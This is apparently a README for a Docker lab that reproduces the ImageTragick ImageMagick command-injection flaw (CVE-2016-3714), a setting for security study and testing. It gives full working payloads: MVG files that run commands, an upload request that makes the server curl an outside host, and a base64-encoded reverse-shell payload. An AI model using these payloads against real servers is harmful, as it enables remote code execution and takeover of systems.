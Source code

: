 # Imagetragick Command Execution Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

The principle and details are as follows:

- https://imagetragick.com/
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

## Environment Setup

Enter the following commands:

```
docker-compose build
docker-compose up -d
```

Visit `http://your-ip/` and you'll see three files:

```bash
├── demo.php # use vul.jpg + identify command to test 
├── upload.php # Support users to upload a file，deliver it to PHP's imagick extension, and then the vulnerability will be triggered
└── vul.jpg # a simple POC
```

## POC

Some POCs used: https://github.com/ImageTragick/PoCs

You can take a test by visiting `http://your-ip/demo.php`. Even though the command executed (`cat /etc/passwd > /tmp/success`) has no echo reply, we successfully obtain the `/tmp/success` file in the docker container:

![](1.png)

Also you can visit `http://your-ip/upload.php` to test another POC. Upload the POC file and packets are as follows（**Attention，this is another POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

As shown, `www.leavesongs.com:8889` has received the http request, proving that the curl command is executed successfully：

![](2.png)

POC of getting a shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
